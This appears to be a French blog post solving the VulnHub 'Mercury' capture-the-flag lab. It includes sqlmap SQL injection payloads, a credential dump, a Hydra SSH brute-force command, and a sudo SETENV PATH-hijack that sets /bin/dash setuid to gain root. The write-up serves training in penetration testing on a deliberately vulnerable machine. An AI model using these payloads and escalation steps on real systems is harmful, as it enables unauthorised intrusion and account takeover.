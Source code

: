 ```yaml
---
title: "Solution du CTF Mercury de VulnHub"
tags: [CTF, VulnHub]
---
```


[Mercury](https://vulnhub.com/entry/the-planets-mercury,544/) est un des épisodes de la série de CTF créé par [SirFlash](https://vulnhub.com/author/sirflash,731/) et disponible sur *VulnHub*. J'ai déjà résolu le CTF [Earth]({% link _posts/2021-12-27-Solution-du-CTF-Earth-de-VulnHub.md %}).

```
Host is up (0.0067s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
```

## Freddie

On a donc une appli Python qui tourne sur le port 8080. Quand on demande une page qui n'existe pas on obtient pas mal de détails, car un mode debug est activé :

> Using the URLconf defined in `mercury_proj.urls`, Django tried these URL patterns, in this order:
> 
> 1. [name='index']
> 2. robots.txt [name='robots']
> 3. mercuryfacts/
> 
> The current path, `zz`, didn't match any of these.
> 
> You're seeing this error because you have `DEBUG = True` in your Django settings file. Change that to `False`, and Django will display a standard 404 page.

C'est suffisant pour nous permettre de trouver le chemin `mercuryfacts`. Cette URL prend en paramètre un identifiant numérique correspondant à un fait relatif à la planète Mercure.

`http://192.168.56.176:8080/mercuryfacts/1/`

Si on remplace le `1` par une apostrophe, on obtient un message d'erreur :

> ##### ProgrammingError at /mercuryfacts/'/
> 
> (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1")

Là encore on obtient un traceback qui indique que le code Python est lancé depuis le dossier `/home/webmaster/mercury_proj`.

`SQLmap` ne rencontre aucune difficulté à exploiter l'injection présente dans l'URL :

```bash
python sqlmap.py -u "http://192.168.56.176:8080/mercuryfacts/1*/" --dbms mysql --risk 3 --level 5
```

Aucun filtre `tamper` à utiliser donc. L'appli permet même l'injection de stacked queries :

```
sqlmap identified the following injection point(s) with a total of 44 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://192.168.56.176:8080/mercuryfacts/1 AND 9064=9064/
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://192.168.56.176:8080/mercuryfacts/1 AND GTID_SUBSET(CONCAT(0x717a6b6b71,(SELECT (ELT(7152=7152,1))),0x7178707871),7152)/
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://192.168.56.176:8080/mercuryfacts/1;SELECT SLEEP(5)#/
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.56.176:8080/mercuryfacts/1 AND (SELECT 9388 FROM (SELECT(SLEEP(5)))RfdF)/
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://192.168.56.176:8080/mercuryfacts/1 UNION ALL SELECT CONCAT(0x717a6b6b71,0x46784b4674466668594d76704455596e5366694962754f6f4e74507946704f6948634d6e58544f6c,0x7178707871)-- -/
    Vector:  UNION ALL SELECT [QUERY]-- -
---
```

Je trouve dans la base `mercury` deux tables :

```
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+
```

Dont une avec des identifiants :

```
Database: mercury
Table: users
[4 entries]
+----+-----------+-------------------------------+
| id | username  | password                      |
+----+-----------+-------------------------------+
| 1  | john      | johnny1987                    |
| 2  | laura     | lovemykids111                 |
| 3  | sam       | lovemybeer111                 |
| 4  | webmaster | mercuryisthesizeof0.056Earths |
+----+-----------+-------------------------------+
```

## Ford

On peut mettre les utilisateurs et passwords dans des fichiers et tester ça avec `THC Hydra` :

```bash
hydra -L /tmp/users.txt -P /tmp/pass.txt -e nsr ssh://192.168.56.176
```

Sans trop de surprise on casse le compte `webmaster` :

```
[22][ssh] host: 192.168.56.176   login: webmaster   password: mercuryisthesizeof0.056Earths
```

L'utilisateur dispose du premier flag :

```console
webmaster@mercury:~$ ls -l
total 8
drwxrwxr-x 5 webmaster webmaster 4096 Aug 28  2020 mercury_proj
-rw------- 1 webmaster webmaster   45 Sep  1  2020 user_flag.txt
webmaster@mercury:~$ cat user_flag.txt
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

Mais surtout dans le dossier `mercury_proj` on trouve un fichier texte avec des mots de passe encodés en base64 :

> Project accounts (both restricted):  
> webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK  
> linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==

On peut alors de connecter avec le compte `linuxmaster` :

```console
webmaster@mercury:~/mercury_proj$ echo bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg== | base64 -d
mercurymeandiameteris4880km
webmaster@mercury:~/mercury_proj$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster/mercury_proj$ id
uid=1002(linuxmaster) gid=1002(linuxmaster) groups=1002(linuxmaster),1003(viewsyslog)
linuxmaster@mercury:/home/webmaster/mercury_proj$ cd
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

## Thermomètre

La mention de `SETENV` dans la ligne du `sudoers` indique que l'on peut définir les variables d'environnement pour l'application qui sera lancée.

Par conséquent, le fonctionnement se rapproche de l'exécution d'un binaire setuid :

```console
linuxmaster@mercury:~$ echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > tail
linuxmaster@mercury:~$ chmod +x tail
linuxmaster@mercury:~$ sudo PATH=.:$PATH /usr/bin/check_syslog.sh
linuxmaster@mercury:~$ ls -l /bin/dash 
-rwsr-xr-x 1 root root 129816 Jul 18  2019 /bin/dash
linuxmaster@mercury:~$ /bin/dash -p
# id
uid=1002(linuxmaster) gid=1002(linuxmaster) euid=0(root) groups=1002(linuxmaster),1003(viewsyslog)
# cd /root
# ls
root_flag.txt
# cat root_flag.txt
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```


